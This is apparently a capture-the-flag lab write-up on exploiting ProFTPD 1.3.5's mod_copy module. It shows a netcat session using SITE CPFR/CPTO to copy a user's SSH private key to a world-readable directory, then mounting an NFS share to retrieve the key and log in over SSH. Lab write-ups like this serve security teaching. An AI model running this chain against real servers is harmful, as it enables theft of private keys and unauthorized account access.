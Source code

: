## mod_copy exploit 

* Using **SITE CPR** and **SITE CPTO** to copy files and directories
* `nc 10.10.26.143 21`  
```
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.26.143]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

* we've managed to copy over the ssh private key over to /var/tmp/
* mounting /var/tmp onto our machine
```
mkdir /mnt/kenobiNFS
mount 10.10.26.143:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```
* using id_rsa to log in
```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.26.143
```


